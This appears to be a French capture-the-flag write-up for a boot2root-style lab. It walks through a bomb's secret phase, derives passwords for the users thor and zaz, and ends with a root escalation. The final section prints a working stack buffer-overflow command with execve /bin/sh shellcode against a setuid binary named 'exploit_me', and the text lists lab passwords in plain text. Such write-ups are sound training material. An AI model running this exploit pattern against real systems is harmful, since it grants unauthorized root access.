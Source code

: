### SECRET STEP

En ayant entré `9 austinpowers` lors de la phase 4, une étape secrète apparait ici.<br>
Un seul nombre est attendu ici, ce nombre doit être supérieur à 1000.<br>
Il s'agit de `1001` (0b1001 == 9).<br>
voilà voilà...<br>
<img src="./ress/cantargue.jpg" width="200" height="200"/>

## CONNECTION TO THOR

En concatenant les mots de passe précedent (sans espaces), nous obtenons le mot de passe:<br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426315```<br>
Sur le forum, est dit d'inverser les lettres 'v' et 'w' qui sont les dernieres lettres de l'alphabet -2 et -3<br>
Ce qui donne le mot de passe final: <br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426135```<br>
<img src="./ress/wat.jpg" width="200" height="200"/>

## CONNECTION TO ZAZ

Dans la home de thor se trouve un fichier "turtle".<br>
Ce fichier peut être séparé en 5 parties selon les lignes vides.<br>
Ces correspondent correspondent aux instructions d'un programme turtle reproduit dans resolve_turtle.py.<br>
En éxécutant chaque série d'instructions, on obtient le mot de passe `SLASH`. Qui ne fonctionne pas.<br>
En revanche le md5 de "SLASH" fonctionne: `646da671ca01bb5d84dbb5fb2238dc8e`.

## SESSION DE ZAZ

Dans la session de zaz se trouve un exécutable root `exploit_me`.
Il suffit de faire une attaque par buffer overflow.<br>
`./exploit_me $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "\x90\xf8\xff\xbf" * 10')`

# WE ARE ROOT

```
# id